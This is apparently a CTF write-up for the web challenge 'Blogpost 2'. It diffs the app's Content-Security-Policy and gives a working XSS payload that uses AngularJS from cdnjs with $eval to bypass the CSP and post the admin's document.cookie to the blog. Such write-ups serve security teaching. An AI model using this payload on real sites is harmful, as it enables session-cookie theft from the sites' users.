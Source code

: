 ```yaml
---
layout: default
title: Blogpost 2
permalink: /:path/
parent: Web
nav_order: 2
---
```

# Blogpost 2

> Points: 725 [?]

## Description

> Look out for my blog posts, again!!
> File: `web_blogpost2.zip`

## Solution

### Understanding the application's features

As a follow-up to the `Blogpost` challenge, the application's features do not differ that much. However, there was a small difference in the source code.

### Analysing the source code

By using the `diff` command , we see that only the `src/app/index.js` differed between both applications.

```bash
$ diff web_blogpost/src/app/index.js web_blogpost2/src/app/index.js  
14c14
<         "default-src 'self'; script-src 'unsafe-inline' 'self' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
---
>         "default-src 'self'; script-src 'self' 'unsafe-eval' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
```

This affects our payload as this meant that the browser will no longer execute our inline javascript.

![](2022-12-06-17-28-53.png)

However, if we use Google's CSP Evaluator, we learn that the new CSP is still bypassable.

![](2022-12-06-17-30-46.png)

### Stealing the flag from the admin user

With a bit of [googling](https://github.com/bhaveshk90/Content-Security-Policy-CSP-Bypass-Techniques) and modifying our payload to achieve the same purpose,

![](2022-12-06-18-07-13.png)

We create a new blog post with an arbitrary title and the following content:
{% raw %}
```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script>
<div ng-app ng-csp>
{{$eval.constructor('fetch("/post",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({title:"get flag here",content:document.cookie})});')()}}
</div>
```
{% endraw %}

After clicking on `Create` and browsing to the blog page, we see a new post by the `admin` user, with the flag printed nicely.

![](2022-12-06-18-04-19.png)

## Flag
`STF22{f4k3_fl4g_f0r_t3st1ng}`
